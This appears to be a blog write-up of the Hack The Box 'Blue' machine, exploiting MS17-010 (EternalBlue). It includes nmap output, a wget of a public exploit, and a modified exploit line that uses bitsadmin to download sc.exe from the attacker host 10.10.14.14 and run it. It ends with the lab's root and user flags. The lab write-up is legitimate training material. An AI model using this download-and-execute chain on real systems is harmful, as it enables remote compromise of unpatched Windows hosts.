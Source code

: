 ```yaml
---
layout: post
title:  "HTB Blue Windows"
description : Easy machine, Ethernalblue exploit and metasploit is all what is needed
tags: HTB, msfvenom, python
---
```


# HTB BLue

# Recon
Nmap scan
```ruby
nmap/Vulns_10.10.10.40.nmap 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.044s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```
# Exploitation
The target machine is vulnerable to the infamous Ethernalblue exploit. 
First we gonna use the metasploit module `auxiliary/scanner/smb/pipe_auditor` so we can use a valid PIPE name from the SMB.
![](https://lh3.googleusercontent.com/0PKB1HI1YseEYeGKuxY6eiv8QtP0FJkw3utrndTzyql8LBnn_txCz-QWh-6bCkreyYR8HmNsbN2b7LlRFSzjyTH5Mmvbs9O6pjobhrJWktjDGryAYQK9Q-DBl9zwSMp6E1L796xTub9Ioh7bx3mRsW-YK6IEM0yR9wcun-rD3PSnucV7o9NPo0x0HRJgIKxWOFOx8T32mZ2GwVBK208TULyCONRmi485TjsAnawOL2B3gMvsyXSgGkuIGgoZzUq9rn1QjmLojcUQo7Djcm15_nCaLBtbz_6NlooIVBS9evdqXDVOMFHYOhC9dmMJPS8xYRWglqC6e4FYNulHCPQoJGtGPC-x10FUBFE-qE9tRqyM439K6NNfdxdmoVhK4YnSnEWsBrhU_zWohR7z03TKqT8QdhqrN91cvtrlZt1QQo6QMOmvXnXDc7nfUfgJiga7fLxp18FH7FeGYVixSoVC6IYOhog1ZTpGk6ITgX4SG7qNMgg7PxriGsoJoiZafpX1cT_d3B2zuA9VhSf1APwHLg_Z7luR0njhru2cZeYg023_cXRu_rqTmvJKxkRbcP0PkfxnS2tZqskY3BssuWsyyx0lgImf-PCFwsQigU90g_ANQ1atpDJUOUPuQOckKsBRSODnev6cTsd9rOH4cHT0Ro5IysdH6z-FqpYGREt4SfBXn-Z_09UFUqM=w1332-h176-no)

We download the EthernalBlue python exploit from **worawit**
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py 
```
We create our shell using msfvenom
![](https://lh3.googleusercontent.com/e0kfHstDjnfrIWY5JcTvFAwefzj-Yg146bBHiq6jkOWc7GcJEYMFSAkUmUFQb9LEWNvDzyOsfByt-HFjsnAv_IYEbHI4Yba-4Gpqz2kUd_IJEvhJbs-iTxgY-aZk6EnRW29WALCRWD1I-at-MhVzvehpTNUuSwACpLK-Bo9q8RFUPpt04iXqVV1H1ajoemMRgsg_Aj0jJXr8olg6MeX_aqk2og9aLHmj5pAeC41bzja1Y47aaD_S7xKmJj66_vduTjPL-f8-zhOUFvH44snmXlkAzbria3o-9jLMFCGrxhK0LXMH8YMKgoN8TtTtAGho-8gEiSEjVvs0MrO5hmHEwD9RRuV2SI9MGNHfG0yH4kF8lHD8z9dP35WC5B7HTYgTKBXiAgiEItbriaDd4L36aTleCpclM7ik9aOwoizTIy8-XQUGhk0JgtAXlCfboQoclZjsfO4x60smJDmqttClXWRfXgd8btaAW7QCLHJ5zmdiimsSDazRXO0BMhwsMociCl6Yxs5RVf5oWJPxvXtb4hdb89wlCMHJg2m9hHOqrCFeMF_4iaM-cyNY6OfkyW2rfO0IcuxBxUBNKJEGBdxqBhEaYgKZ-GLucyfLxzL7d-jcV5f5e3x5JBr4fucV9wCr8gp8TB8q_9ZBLqrz9veNYPN02BCK1JRCrnkM_FU326PusQ2qgnExr8s=w1341-h248-no)

We modified the exploit to call for our payload to be donwloaded on our target machine

```ruby
#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c bitsadmin /transfer pwn /download http://10.10.14.14/sc.exe C:\sc.exe')
        service_exec(conn, r'cmd /c /sc.exe')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
  ```
  
We run the exploit along with a valid PIPE to use and our payload is executed
![](https://lh3.googleusercontent.com/BMpjy9RPHcyQV9UQEpeJGAzKjRn3oTPhLyF3jZbp_MaC3ZYpfZjHEAlFzb9kzoRg7JDLxTYysPW17FubtYTxyngbO-ZvUyWxWKK2vlT7eVO2T0kPywpkCAhsH1kLXK1Xuum2hXsKtAFofZTzBJIgBwKLGU9QArHcaN9BhOVkdVHADy9rqqBNMdWWws2TjRCwuP1IZGSXqYnWHH5a3rzKyboFL03rJL6LqAEE5qKRiK0v812BxRcK6LfCS7J-XJMgG4s0snBTGsoPgss9KcEWxbKNa7plQtv18wTExP8SwkkJbO7V4c8CP7aiuHbMdR-Y-Gehy_4cihVKdZjzI0LjTzyOZM47NwAwpaNAJ5Zz1PNAX1UaUI1ubZ69_BpAB5U9eQ89FhZbx6Yf1DPURFQbQX1ZEltfX2Gd8ZwuIr02EmJLLpC4rqljqBqZ70gCFz669lZidurG2yKSJMeCaHfvd76guVJ-dyZLJSIK7TYYwZxO2C5zEFHeoQ6tEgavG5U70y-NeLdchHaUtzyuszlxV3b_hADqDmhnrRyWgVypT9mH6ZDLzlAsmYxG4L-B0KSXeBx0Bgr1VMLOvxgSCY8kE5O1qDotOVoWUn3NkAHq1CIlfdQaehk_yv-NZwQyKfnpE6J87xwCrer26Zvdc5Bhp6KIJ1ZAGzCb8pZ5-rSzuxgGe1QkFphM11s=w537-h464-no)

![](https://lh3.googleusercontent.com/qWP4JICNTD1mwhXK_J56RU6BpPxTHbP_QIEO3X2kzyF5vaCk6Qo_VxSi-Y6HUOImkgeRY_VyRcmycfuUXF10Vbz3kVeGohsBWdI6B72Ara0nuK6Bc9B9vXlew4wwKKqjEYpphpQFpM3n9oMtwIgrgd0gToBF2gXVARYXXAMFJ9XSD8uEG45crUInDuBn6WGFmFFIi3UVhMAmqmOldH685UT-FyYN4JeJzTuYOay5PKmwiYQ2vo-qqWWpJvsA2MCoCMCR6fFttbjqgTGV-k37fx2cWtD3wWzEOefodCAG2GrZ8VtvZjAdsAfJqUijVqWF5WU_YxHiwnxFWMQqgnctXoqGnx0xfOs2LnVqTRTD5ysQ2bJ4Qc3cHj29W1gUdU5y5qrAR8LSxTg-FHdULZGRvlX1sJ68igPyffb4J8pJ_bmaI78JIAvAVY53-BvFarM_Wzm3ubg8dcgrwt32rtOfhDHMwk1HAd8AJ0AWBEmq4IBzVGudBwqILdR0_tr_QL0N08G6K_CTcfRdOQGTkYQQJkqlN0jXsA_SlgE41fbTP9D07KjJc61zZa8NeWCWjXZUImchmHK2pJ1iPiUml8DshqFXGWjI71auMBbd9zIFEppATj9i8BXWJy8z5_f_Ew8q4l897Nx_smtg7NSZhnD5LTzbI38flAVMnDDt6m9u-Kb0vVFW74oaX2s=w1101-h458-no)

Finally we got Root level access.
![](https://lh3.googleusercontent.com/ZuFWg4MRj-bxX7daE4pDG6LaC8yHBO6LkhK9lKTogq-3zIU4pmU5qeL7EtXLAorU4Hoj726K_LkKQUw8_qexnzkYq0ti_jaspduSSamfXC5hX1v80Tt-1NpCi4LGUxaE607VHatFo5bVlQNRQri5L-G5IoZerYUIDgrDYK550eYCWfDB6kPn6uUAq00nIMp-G5BCwLkNcw2j5S1xcKJ_dddk5Mo_sEu7Uc6gnOO7oaAG3-2lquvUgk5r4huXPQhKz5-zVPiUPoqc5q-2-w1F5PFBLKnDMkT-XkF0wQyIuZy-4xhqAZZkpaw_XPIf7nQ6Rh6BXEmfxr336sw2tKCP1KcDvt8wFdLUnM5Oqf0cgiv80FDW2_sEYHDGhsBaTsGD37D0ESe_7ZuthcDYyH5eynB7kZE4VwvUd2fSE9e2duWuQebOpmsUuRPGkxlc97IpWKIJvNyUeH5H5SRAgGK-RlfxMqbuvdpllLeOrNfRsjzx897BR-iIqBvwJz2y04cHdOWR7mjsfefUCY_GeExlPCxwQIGsvLqwwdP8uC-81cYdXANuxTAIz4Ty18wBAQXRkHvZQkL9TyIgfuphRHy_xI1b7pfXzZog8f3n3vJm9MiHFfHHTLiGgIXBFztHztXN2rVi5NJx--CJv576xPiTzkV1wRH_r1VX-7vpY52FgJ0WQhLolq7RhNA=w1032-h393-no)

# Flags
```ruby
 ROOT "ff548eb71e920ff6c08843ce9df4e717"
 USER "4c546aea7dbee75cbd71de245c8deea9" 
```
